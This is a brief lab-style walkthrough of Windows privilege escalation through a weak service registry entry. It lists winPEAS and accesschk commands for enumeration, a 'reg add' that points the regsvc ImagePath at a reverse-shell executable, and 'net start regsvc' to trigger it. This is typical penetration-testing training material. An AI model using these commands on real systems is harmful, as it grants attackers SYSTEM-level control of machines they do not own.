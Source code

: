 1.Run winPEAS to check for service misconfigurations:

> .\winPEASany.exe quiet servicesinfo


2.Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:


PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc |
Format-List

3.Alternatively accesschk.exe can be used to confirm:

.\accesschk.exe /accepteula -uvwqk

HKLM\System\CurrentControlSet\Services\regsvc

4.Overwrite the ImagePath registry key to point to our reverse shell executable:


reg add
HKLM\SYSTEM\CurrentControlSet\services\regsvc /v
ImagePath /t REG_EXPAND_SZ /d
C:\PrivEsc\reverse.exe /f


5.Start a listener on Kali, and then start the service to trigger the exploit:
> net start regsvc